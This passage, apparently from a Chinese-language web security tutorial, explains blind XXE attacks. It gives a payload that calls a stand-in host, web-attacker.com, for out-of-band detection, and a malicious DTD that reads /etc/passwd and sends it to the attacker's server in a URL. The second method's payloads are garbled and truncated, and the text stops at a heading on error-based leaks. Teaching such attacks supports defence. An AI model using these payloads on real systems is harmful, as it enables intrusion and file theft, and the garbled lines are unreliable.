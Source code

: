 要引用此实体，您将使用% xxe(呼叫实体)

要检查带外请求，DTD 将与参数实体类似:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

注意:这里实体的调用只在 DTD 内部完成。

您将看到受害者服务器与您的服务器之间的交互。

# 利用盲 XXE 泄漏带外数据

您将在实体中加载敏感数据，并将其作为参数发送到您的服务器 url，因为应用程序没有为 xxe 返回任何响应。

因此，在检测到盲 XXE 后，我们将从受害者服务器中提取一些数据。这是一个多步骤的过程，可以用两种方法来完成。我们先来了解一下 portswigger one。

1.  我们将向已经托管了 dtd 文件的端点上的漏洞服务器发出请求。
2.  现在，这个 dtd 文件包含恶意 XML 代码，在解析时加载敏感数据，并使用该数据向您的服务器发出请求。

只需将这个 DTD 放入 XML 数据中。

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

用您的漏洞利用服务器 url/漏洞利用替换该 URL

用这个% xxe 调用您的实体将向您的漏洞利用服务器发出请求，该服务器托管一个包含以下内容的 dtd 文件

`<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;`

用您的漏洞服务器 url 替换 URL。

1.  首先，一个文件参数实体请求 xml 加载/etc/passwd 的内容

2.然后定义第二个名为 eval 的实体，它的值本身是另一个实体，所以我们将% HTML 编码到。妥善保管引号和括号。

3.现在调用%eval，它用数据作为 url 的参数动态形成 url

4.% ex filter 最终向已形成的 url 发出请求。

您将在服务器日志中收到/etc/passwd 的内容。

**另一种方法是:**

>% dtd；】>

这里我们定义了两个实体。一个是加载文件，另一个是向带有恶意 dtd 文件的攻击者服务器发出请求。

evil.dtd:

> " >
> 
> % all

这里的区别在于，在 dtd 文件中我们并不要求加载哪个文件，在 xml 请求中已经这样做了，其次，动态创建的 *send* 实体不是参数化实体，需要在 xml 请求中用 *& send 调用；*为了将数据发送给攻击者的服务器。

## 通过错误消息泄漏:
